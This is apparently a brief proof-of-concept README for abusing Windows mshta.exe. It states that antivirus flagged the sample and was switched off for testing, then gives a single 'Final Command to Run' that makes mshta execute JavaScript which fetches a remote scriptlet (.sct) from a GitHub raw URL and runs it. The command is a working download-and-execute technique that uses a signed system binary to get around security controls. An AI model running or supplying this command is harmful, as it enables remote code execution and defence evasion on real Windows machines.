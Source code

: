 POC for MSHTA 

Note:
  AV detected. AV was OFF while testing

Final Command to Run : C:\Windows\SysWOW64>mshta.exe javascript:a=(GetObject("script:https://raw.githubusercontent.com/void010/dummy/main/mshta/cmd_poc1.sct")).Exec();close();
